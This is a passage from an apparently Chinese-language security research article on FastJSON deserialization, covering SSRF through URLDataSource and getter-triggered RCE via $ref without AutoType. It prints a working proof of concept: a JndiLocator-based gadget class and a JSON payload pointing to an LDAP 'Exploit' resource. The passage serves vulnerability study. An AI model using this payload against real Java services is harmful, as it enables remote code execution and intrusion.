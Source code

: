 之后在RefSSRF中将第二个@type的数值作为参数传入，同时注意到这里的setDataSource的参数是URL类型，在FastJSON中URL类型允许被反序列化，也就是说可以调用到setDataSource方法，并且实例化一个URLDataSource对象：

![]()

如果我们要实现SSRF那么我们可以通过调用URLDataSource的getInputStream()方法来触发连接请求，而使用JSON.parseObject在解析JSON时默认就会调用getInstance()(在setXXX之后调用)，从而实现SSRF:

![]()

通过$ref引用功能，我们可以触发大部分getter方法，理论上当存在危险的method方法时我们可以通过此种方法在不开启AutoType的情况下来实现RCE，下面以threedr3am师傅提供的payload为例(代码部分取自Y4er师傅)：

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    package org.heptagram.fastjson;  
    import com.alibaba.fastjson.JSON;import org.apache.shiro.jndi.JndiLocator;import org.apache.shiro.util.Factory;import javax.naming.NamingException;  
    public class RefRCE  <T> extends JndiLocator implements Factory<T>, AutoCloseable {    private String resourceName;  
        public RefRCE() {    }  
        public T getInstance() {        System.out.println(getClass().getName() + ".getInstance() invoke.");        try {            return (T) this.lookup(this.resourceName);        } catch (NamingException var3) {            throw new IllegalStateException("Unable to look up with jndi name '" + this.resourceName + "'.", var3);        }    }  
        public String getResourceName() {        System.out.println(getClass().getName() + ".getResourceName() invoke.");        return this.resourceName;    }  
        public void setResourceName(String resourceName) {        System.out.println(getClass().getName() + ".setResourceName() invoke.");        this.resourceName = resourceName;    }  
        @Override    public void close() throws Exception {    }}

载荷部分：

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    package org.heptagram.fastjson;  
    import com.alibaba.fastjson.JSON;  
    public class RefRCEMain {    public static void main(String[] args) {        String json = "{\n" +                "  \"@type\":\"java.lang.AutoCloseable\",\n" +                "  \"@type\": \"org.heptagram.fastjson.RefRCE\",\n" +                "  \"resourceName\": \"ldap://localhost:1099/Exploit\",\n" +                "  \"instance\": {\n" +                "    \"$ref\": \"$.instance\"\n" +                "  }\n" +                "}";        System.out.println(json);        JSON.parse(json);  
        }}

执行结果：

![]()

##### 文件相关操作

  

Gadget寻找思路：
